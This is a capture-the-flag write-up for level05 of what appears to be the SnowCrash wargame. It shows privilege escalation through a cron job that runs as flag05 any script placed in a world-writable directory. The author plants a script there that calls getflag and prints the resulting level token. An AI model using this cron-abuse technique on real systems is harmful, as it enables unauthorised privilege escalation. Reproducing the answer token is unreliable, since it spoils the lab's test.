 ## level05

I logged in as `level05` with `su` after getting the password, started looking around… no obvious clues. Then I decided to start fresh and when I start a new SSH session as `level05` I get this:

```bash
level05@192.168.1.59's password: 
You have new mail.
```

Some [research](https://unix.stackexchange.com/questions/82910/how-can-i-find-my-local-mail-spool) about mail in Linux leads me to `/var/spool/$USER` 

<aside>
💡

A mail spool is a directory or file where email messages are temporarily stored by the mail server before they are delivered to the recipient's mailbox. 

</aside>

Let’s check the content of that file:

```bash
level05@SnowCrash:~$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It looks like a crontab running every 2 minutes…

I check my crontabs with `cronttab -l`: nothing.

Let’s see what’s this executable file:

```bash
level05@SnowCrash:~$ ll /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver*
# The file is owned by flag05
```

The '+' in the permissions means there are special permissions in place, ACL (Access Control List). I can check them with `getfacl`

```bash
level05@SnowCrash:~$ getfacl /usr/sbin/openarenaserver
getfacl: Removing leading '/' from absolute path names
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

No surprises there. But what’s in the file?

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So in natural language, “for each file in the `/opt/openarenaserver/` directory, keeping the CPU time under 5 seconds, execute the file in tracing mode and remove it”. These will be executed by flag05, so if I were to make them call `getflag` it would be done…

I checked that I could write in `/opt/openarenaserver/`and since I could, I placed there a file like

```bash

level05@SnowCrash:~$ vim /opt/openarenaserver/key.sh

#!/bin/sh
getflag > /tmp/flag

level05@SnowCrash:~$ chmod 777 /opt/openarenaserver/key.sh

level05@SnowCrash:~$ ls /opt/openarenaserver/
key.sh
```

waited 2 minutes for the crontab to find it and call it and

```bash
level05@SnowCrash:~$ ls /tmp/flag
/tmp/flag
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### Key learnings
- Privilege escalation via cron